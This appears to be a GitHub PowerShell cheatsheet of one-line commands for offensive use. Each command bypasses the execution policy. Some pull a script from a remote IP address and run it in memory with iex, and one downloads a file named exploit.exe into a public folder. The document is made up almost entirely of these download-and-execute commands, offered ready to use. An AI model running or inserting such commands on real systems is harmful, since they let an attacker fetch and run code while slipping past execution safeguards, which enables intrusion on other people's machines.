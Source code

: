 ### Powershell-Cheatsheet
source: [github user frizb](https://www.github.com/frizb)


##### Check the Powershell Version

```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "get-host"
```

##### Test if you can run PowerShell Version 2

```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -Version 2 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "$PSVersionTable"
```

##### Execute Remote Powershell from windows command prompt

```cmd
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.10/code.ps1'))" && SET "PATH=%PATH%;%ALLUSERSPROFILE%\code\"
```

##### Execute Remote Powershell from Powershell prompt

```Powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.10/code.ps1'))
```

##### Download Remote File Using Powershell from Windows command prompt
```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/exploit.exe\", \"C:\\Users\\Public\\Downloads\\exploit.exe\")"
```


